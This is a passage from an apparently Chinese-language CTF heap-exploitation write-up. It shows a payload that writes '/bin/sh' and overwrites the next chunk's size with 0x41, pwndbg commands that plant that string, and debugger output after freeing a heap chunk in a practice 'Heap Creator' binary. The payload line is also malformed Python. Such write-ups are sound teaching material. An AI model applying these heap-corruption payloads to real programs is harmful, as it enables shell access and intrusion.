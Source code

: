 ```python
payload2.0 = "/bin/sh\x00" + "aaaaaaaaaaaaaaaa" + "\x41"
```



![](https://cdn.nlark.com/yuque/0/2020/png/574026/1600333169340-cd7aa918-ec9d-45a2-bd60-0c491cbb252c.png)

我们在pwngdb中可以执行命令：**<font style="color:#F5222D;">set *0x603030=0x6E69622F;</font>****<font style="color:#F5222D;">set *0x603034=0x0068732F</font>**

**<font style="color:#F5222D;">执行效果如下：</font>**

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1600333777667-45329515-7dc8-42f8-8685-fc3ebc02b2fa.png)

**<font style="color:#F5222D;">在设置</font>**"\x41"：set *0x603048=0x41，效果如下：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1600333962289-afadae90-8ab6-4c0c-81d9-9632a153e504.png)

可以看到已经成功的部署好了"/bin/sh"字符串，并且将下一个heap2的size部分覆盖成了0x41。接下来的操作就和前面的原理一样了，我们需要释放掉heap2，也就是释放编号为1的heap。按c回到执行流程删除编号为1的heap，Ctrl + c回到调试界面输入命令bin我们看一下释放后的堆块放在哪了：

```powershell
pwndbg> c
Continuing.
4
Index :1
Done !
--------------------------------
          Heap Creator          
--------------------------------
 1. Create a Heap               
 2. Edit a Heap                 
 3. Show a Heap                 
 4. Delete a Heap               
 5. Exit                        
--------------------------------
Your choice :^C
Program received signal SIGINT, Interrupt.
0x00007ffff7b04320 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:84
84	in ../sysdeps/unix/syscall-template.S
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────[ REGISTERS ]───────────────────────────────
 RAX  0xfffffffffffffe00
 RBX  0x0
 RCX  0x7ffff7b04320 (__read_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x4
 RDI  0x0
 RSI  0x7fffffffddc0 —▸ 0x7fffffff0a34 ◂— 0x0
 R8   0x7ffff7fde700 ◂— 0x7ffff7fde700
 R9   0xd
*R10  0x8b8
 R11  0x246
 R12  0x400750 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffdeb0 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffffffddd0 —▸ 0x400e00 (__libc_csu_init) ◂— push   r15
 RSP  0x7fffffffddb8 —▸ 0x400d96 (main+115) ◂— lea    rax, [rbp - 0x10]
 RIP  0x7ffff7b04320 (__read_nocancel+7) ◂— cmp    rax, -0xfff
────────────────────────────────[ DISASM ]────────────────────────────────
 ► 0x7ffff7b04320 <__read_nocancel+7>     cmp    rax, -0xfff
   0x7ffff7b04326 <__read_nocancel+13>    jae    read+73 <read+73>
    ↓
   0x7ffff7b04359 <read+73>               mov    rcx, qword ptr [rip + 0x2ccb18]
   0x7ffff7b04360 <read+80>               neg    eax
   0x7ffff7b04362 <read+82>               mov    dword ptr fs:[rcx], eax
```